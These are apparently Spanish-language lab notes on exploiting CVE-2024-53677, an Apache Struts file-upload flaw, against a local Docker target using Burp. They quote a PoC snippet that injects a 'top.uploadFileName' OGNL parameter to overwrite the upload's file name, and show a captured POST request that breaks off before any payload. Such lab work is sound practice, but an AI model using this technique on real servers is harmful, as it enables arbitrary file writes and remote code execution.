 

Encuentro este articulo que explica la vulneravilidad donde el upload puede llevar a RCE
https://blogs.hiteshpatra.in/cve-2024-53677-apache-struts-file-upload-vulnerability-leading-to-rce

Para explotar esta vulnerabilidad como dice el informe probaremos un file traversal en el lado de subir la imagen para ver si nuestro archivo se sube donde no debiera, vamos a capturar la solicitud con burp y ver el resultado en nuestro docker . 


en el repeater intento simplificar el texto de la subida de imagen lo maximo posible. pruebo con algun parametro pero la pagina bloquea cualquier cosa que no sea una imagen
![[Pasted image 20250219190254.png]]

Se suben las imagenes pero el contenido debe de ser de imagen 
![[Pasted image 20250219190345.png]]

Para explotar el cve meto otro parametro a la solicitud de subida de archivos :

Mirando el Poc se le anade lo siguiente a la solicitud de burp
```python
  # Attempt to overwrite file name using OGNL binding
    files = {
        "upload": ("test.txt", harmless_content, "text/plain"),
        "top.uploadFileName": test_filename  # Attempt filename overwrite
    }

    # Custom Content-Type boundary
    boundary = "----WebKitFormBoundary" + "".join(random.choices("abcdefghijklmnopqrstuvwxyz0123456789", k=16))
    m = MultipartEncoder(fields=files, boundary=boundary)
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": m.content_type
    }
```

La petición queda tal que asi :
```http
POST /upload.action;jsessionid=12027ECD4EDE843F44D6C8932AB3E1BE HTTP/1.1
Host: localhost:8080
Content-Length: 324
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJHdpaH6gDs4Syohg
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=12027ECD4EDE843F44D6C8932AB3E1BE
Connection: keep-alive

------WebKitFormBoundaryJHdpaH6gDs4Syohg
Content-Disposition: form-data; name="upload"; filename="whoa3mi.jpeg"
Content-Type: image/png

```